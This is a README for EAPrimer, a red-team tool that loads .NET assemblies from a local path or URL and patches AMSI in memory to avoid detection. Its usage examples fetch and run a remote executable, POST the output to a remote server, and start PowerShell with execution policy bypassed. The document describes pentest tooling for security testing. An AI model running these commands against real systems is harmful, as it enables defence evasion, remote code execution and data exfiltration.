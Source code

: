 # EAPrimer

EAPrimer can be used to load .Net assemblies from a filepath or URL. On startup, it will attempt to perform in-memory patching of AMSI to bypass detection. By default, output is written to the console, however, this can be directed to a file or even sent via HTTP POST request to a remote server.

The latest, compiled version of the code is available <a href="EAPrimer/bin/Release/">here</a>.

#### Usage:
Execute remote file with arguments and send output to server:
```text
EAPrimer.exe -path=https://192.168.1.2/Seatbelt.exe -post=https://192.168.1.2 -args="-group=all"
```

Execute local file with arguments and write output to file:
```text
EAPrimer.exe -path=.\Seatbelt.exe -post=results.txt -args="-group=all"
```


## Invoke-EAPrimer.ps1
The main purpose for writing EAPrimer.exe was to act as a support, or "Primer", for executing assemblies. Ultimately allowing for an "execute_assembly" module in pentest frameworks such as <a href="https://github.com/m8r0wn/ActiveReign">ActiveReign</a> and <a href="https://github.com/byt3bl33d3r/CrackMapExec">CrackMapExec</a>. The PowerShell script allows for added flexibility to create these modules  *(coming soon)*.

#### Usage:
```powershell
powershell -exec bypass
Import-Module .\Invoke-EAPrimer.ps1
Invoke-EAPrimer -Path .\Seatbelt.exe -Args -group=all
```

## Credit
This was one of my first deep dives into C# and much of the heavy lifting was already done by these guys:
* <a href="https://twitter.com/Flangvik">Flangvik</a> - <a href="https://github.com/Flangvik/NetLoader">NetLoader</a>
* <a href="https://twitter.com/_RastaMouse/">_RastaMouse</a> - <a href="https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs">AMSI Bypass</a>

## Notes
Checkout <a href="https://github.com/Flangvik/SharpCollection">SharpCollection</a> for hosted payloads to test it out!